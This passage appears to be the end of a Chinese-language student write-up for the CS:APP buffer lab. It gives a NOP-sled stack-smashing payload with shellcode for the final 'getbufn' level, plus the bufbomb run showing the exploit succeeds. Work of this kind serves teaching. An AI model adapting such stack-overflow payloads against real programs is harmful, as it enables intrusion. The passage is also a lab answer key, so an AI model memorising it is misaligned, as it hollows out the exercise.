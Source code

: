 ```
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 b8
9f 27 50 2a 8d 6c 24 28 68 2e
8c 04 08 c3 80 39 68 55
```

```
$ ./hex2raw -n in4 out4
$ ./bufbomb < out4 -n -u yy
Userid: yy
Cookie: 0x2a50279f
Type string:KABOOM!: getbufn returned 0x2a50279f
Keep going
Type string:KABOOM!: getbufn returned 0x2a50279f
Keep going
Type string:KABOOM!: getbufn returned 0x2a50279f
Keep going
Type string:KABOOM!: getbufn returned 0x2a50279f
Keep going
Type string:KABOOM!: getbufn returned 0x2a50279f
VALID
NICE JOB!
```

打完收工~

# 附录
我的hex2raw源代码
